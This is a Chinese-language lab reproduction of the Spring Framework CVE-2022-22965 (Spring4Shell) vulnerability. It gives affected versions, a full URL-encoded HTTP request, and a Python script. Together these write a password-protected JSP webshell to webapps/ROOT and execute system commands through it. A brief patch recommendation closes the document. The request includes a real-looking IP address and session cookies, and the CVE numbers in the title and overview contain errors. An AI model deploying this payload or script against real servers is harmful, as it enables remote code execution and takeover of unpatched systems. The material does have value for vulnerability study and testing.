

# CVE-2022-229655
## 漏洞概述

CVE-2022-22965是在java 9的环境下,引入了class.module.classLoader,导致CVE-2021-1622漏洞补丁的绕过,JDK9中存在可以绕过黑名单禁用的类,导致了这个漏洞

## 影响版本

运行环境为JDK9及以上的版本的:

Spring Framework 5.3.0 - 5.3.17
Spring Framework 5.2.0 - 5.2.19

## 复现流程

### 1.搭建环境

```Linux
docker compose up -d
```

### 2.构建payload

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22fuck%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20=%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream();%20int%20a%20=%20-1;%20byte%5B%5D%20b%20=%20new%20byte%5B2048%5D;%20while((a=in.read(b))!=-1)%7B%20out.println(new%20String(b));%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuck&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 1.92.105.120:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pma_lang=zh_CN; solo=f4228ececb23117222043ef861540f4f4797e4b92b3a2fae410fd2e95758bc38758200ed7959fe5e04cc2a0cfe529a705b70c5b195fce9676ff26a55324eb97b; LATKE_SESSION_ID=jYDdLwewG6Laylyl; JSESSIONID=9B00ED14442EF534B6C1735AB614F9A3
Connection: close
suffix: %>//
c1: Runtime
c2: <%
```
访问网页并且进行抓包，修改红色框中的内容，其内容的简单目的是写入恶意代码到webapps/ROOT目录下的fuck.jsp文件中，在访问该文件的时候，需要验证密码pwd之后才能够执行需要执行的命令cmd。**(PS:每次写完shell会有缓存,因此payload没打成功请重启)**

poyload的部分意思

```jsp
首先对suffix、c1、c2参数进行替换。
经过处理之后，有些java基础的人已经看出来了这是一个写入webshell的语法
首先判断pwd是否是fuck，如果通过就执行cmd命令
    
GET 
/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=
<% if("fuck".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); 
	int a = -1; byte[] b = new byte[2048];
        while((a=in.read(b))!=-1){
        	out.println(new String(b)); 
	}
}%>//
&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp				//后缀名是jsp
&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT	//路径是webapps/ROOT
&class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuck				//文件名字是fuck
&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1

```
```jsp
?class.module.classLoader.resources.context.parent.pipeline.first.pattern=
```
这个地址是一种构造特定HTTP请求的方法,通常操控Apache Tomcat 服务器的内部配置参数来实现特定功能

首先判断pwd是否是fuck,如果通过就执行cmd命令
```<% ... %>```:脚本标签,包含在其中的Java代码在服务端执行。
```if("j".equals(request.getParameter("pwd")))：```检查请求参数pwd是否等于字符串”fuck”。
```Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()：```如果条件满足，调用Runtime.getRuntime().exec执行请求参数cmd指定的命令，并获取命令的输出流。
```while((a=in.read(b))!=-1)：```读取命令执行的输出内容。
```out.println(new String(b))：```将读取到的输出内容打印到响应中。

### 3查看是否成功

### 4.脚本
```python
import requests

headers={
    "suffix": "%>//",
    "c1": "Runtime",
    "c2": "<%"
}

payload1='/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("fuck".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuck&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat='
ip="http://192.168.1.136:8080"
payload2='/fuck.jsp?pwd=fuck&cmd=id'

try:
    U1=requests.get(url=ip+payload1,headers=headers,verify=False,timeout=3)
    U2=requests.get(url=ip+payload2,verify=False,timeout=3)
    if U2.status_code == 200:
        print(f"The VULN CVE-2022-22965 exists, payload is :{payload2.replace('/','')}")
except Exception as e:
    print(e)
```

### 5.修复建议

更新到Spring Framework 5.3.18或5.2.20